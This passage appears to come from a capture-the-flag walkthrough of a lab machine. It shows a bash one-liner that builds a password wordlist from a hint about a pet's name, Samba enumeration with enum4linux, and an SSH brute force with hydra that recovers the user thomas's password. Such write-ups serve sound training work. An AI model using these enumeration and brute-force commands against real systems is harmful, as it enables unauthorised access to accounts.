 This contains a dialogue where Tomas states that he only remembers part of his password which is the name of his pet followed by three numbers, asking to reset his password. 

![](/assets/images/alfa/screenshot-3.png)

We can use those specifications to create our dictionary of words, a oneliner bash script could do that for us.

```console
root@kali:~$ for x in {000..999}; do echo milo$x;done > thomas.pass
```

### Samba Enumeration

By Listing the Samba service, it was possible to verify that Thomas is a local user of the system.

```console
root@kali:~$ enum4linux -a 192.168.179.167
...
S-1-22-1-1000 Unix User\thomas (Local User) 
```

The most logical thing would be to brute force the SSH service. 

```console
root@kali:~$ hydra -l thomas -P thomas.pass ssh://192.168.179.167:65111
...
[65111][ssh] host: 192.168.179.167   login: thomas   password: milo666
1 of 1 target successfully completed, 1 valid password found
```

## Exploitation
### Access via SSH
